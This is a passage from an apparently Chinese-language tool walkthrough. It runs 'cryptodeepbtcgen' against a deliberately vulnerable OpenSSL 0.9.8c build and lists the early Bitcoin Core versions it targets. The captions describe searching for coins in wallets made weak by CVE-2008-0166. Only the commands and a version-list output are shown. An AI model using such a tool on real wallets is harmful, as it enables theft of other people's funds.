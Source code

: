 ls -lh
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/c70/338/b5e/c70338b5ee1f6991711f03d09c4e2932.png" alt="cryptodeepbtcgen 成功創建！" title="cryptodeepbtcgen 成功創建！"/><figcaption class="wp-element-caption">cryptodeepbtcgen 成功創建！</figcaption></figure>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/b60/1a6/941/b601a69413aacc3e9efa10ef0fb084fb.png" alt="在具有嚴重漏洞 OpenSSL 0.9.8 CVE-2008-0166 的早期版本的 Bitcoin Core 上搜索 BTC 硬幣"/></figure>



<h2>比特幣核心軟件客戶端的所有受支持版本：</h2>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/77a/b0d/f5b/77ab0df5baf110bd11c89ccebba0791d.png" alt="在具有嚴重漏洞 OpenSSL 0.9.8 CVE-2008-0166 的早期版本的 Bitcoin Core 上搜索 BTC 硬幣"/></figure>



<pre class="wp-block-code"><code>crypto &gt; LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l
#0   - 0.3.24
#1   - 0.8.6-d
#2   - 0.8.6-qt
#3   - 0.9.1-d
#4   - 0.9.4-d
#5   - unknownA
#6   - unknownB
#7   - unknownC
#8   - unknownD
#9   - unknownE
#10  - unknownF
#11  - unknownG
#12  - unknownH
#13  - unknownI
#14  - unknownJ
#15  - unknownK
#16  - unknownA0
#17  - unknownA1
#18  - unknownA2
#19  - unknownA3
#20  - unknownA4
#21  - unknownB0
#22  - unknownB1
#23  - unknownB2
#24  - unknownB3
#25  - unknownC0
#26  - unknownC1
#27  - unknownC2
#28  - unknownD0
#29  - unknownD1
#30  - unknownD2
#31  - unknownD3
#32  - unknownD4
#33  - unknownD5
#34  - unknownE0
#35  - unknownA0x
#36  - unknownA1x
#37  - unknownA2x
